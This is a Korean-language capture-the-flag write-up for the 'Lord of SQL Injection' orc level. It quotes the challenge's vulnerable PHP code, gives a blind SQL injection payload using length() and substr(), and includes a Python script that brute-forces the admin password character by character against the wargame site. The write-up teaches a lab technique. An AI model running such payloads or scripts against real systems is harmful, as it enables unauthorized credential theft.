 # Lord of SQL Injection No.4 - orc
## 문제 출제 의도
기본적인 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
orc 문제 의 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - 데이터베이스에서 뽑아온 값이 있으면 Hello admin이 출력된다.
    - addslashes 함수
        ~~~
        string addslashes ( string $str )
        ~~~
        *  특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
        * 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.

    - 이후 받은 pw 값과 데이터베이스에 뽑아온 pw 값을 비교하여 두 pw 값이 같으면 문제가 풀린다.

## 문제 해결
- 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
    * 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확ㅉ인한다.
        ~~~
        ?pw=' or id='admin' and length(pw)=8-- -
        ~~~
        이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.


- 비밀번호의 실제 값을 substr 함수를 통해 알아낸다.
    * SUBSTR
        ~~~
        substr(문자열, 시작index, 길이)
        ~~~
        - 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
        - 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

- 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
- 다음은 파이썬 코드이다.
~~~
    import urllib.request #http 프로토콜에 따라 요청, 응답받기 위해 파이썬의 표준 모듈에 포함되어 있는 urllib 모듈을 사용할 것이다.
    from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

    key = "" #pw값 저장을 위한 문자열 변수
    for i in range(1, 9): #8자리이기 때문에 1~8까지 뺑뺑이
        for j in range(32, 127): #아스키코드에서 유효한 값은33~126이기 때문에
            url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" #고정된 부분
            data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j)) #얘들이 새로 들어갈 애들이다.
            print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
            data = quote(data) # URL Encoding을 해 준다.
            re = urllib.request.Request(url + data) #모듈의 클래스를 통해 re객체 생성
            re.add_header("User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다. 
            re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6") # 쿠키값 입력

            res = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

            if str(res.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
                key += chr(j).lower() # key 변수 뒤에 유효한 값인 j를 대문자로 변경하여 추가한다.
                print(key) # key를 출력한다.
                break # i번째 문자를 찾았으니 이제 다음 문자를찾아 문자열을 완성하기 위해 안쪽 포문을 탈출한다.
    print(key) #  최종 key를 출력한다.
~~~
- 위 코드를 실행하면 295d5844가 출력된다. 이를 URL 뒤에 GET 방식으로 입력하면 해결된다. 

